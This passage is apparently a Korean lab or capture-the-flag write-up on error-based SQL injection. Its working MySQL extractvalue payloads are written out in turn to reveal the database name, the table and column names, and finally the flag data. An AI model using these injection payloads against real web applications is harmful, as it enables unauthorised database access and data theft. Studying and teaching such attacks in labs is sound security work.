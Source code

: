 **아까와 똑같다.**

이를 기반으로, **Error Based SQL Injection 공격**을 진행해보겠다.

```sql
' or extractvalue(1,concat(0x7e,database())) and '1'='1
```

**실행 결과:**

![sqli4 database](/assets/web-screenshots/blind-error-based-sqli/sqli4_database.png)

> 데이터 베이스 이름: **sqli_2_2**

이를 이용하여 **테이블명과 컬럼명, 그리고 최종 데이터**까지 추출해보겠다.

```html
' or extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='sqli_2_2' limit 0,1))) and '1'='1
```

> 테이블 이름: **flagTable_this**

**컬럼명 추출:**

```sql
' or extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='sqli_2_2' and table_name='flagTable_this' limit 1,1))) and '1'='1
```

> 컬럼 이름: **idx**, **flag**

이제 최종 flag 데이터를 추출해보겠다.

```sql
' or extractvalue(1,concat(0x7e,(select flag from flagTable_this limit 13,1))) and '1'='1
```

![sqli5 flag](/assets/web-screenshots/blind-error-based-sqli/sqli5_flag.png)
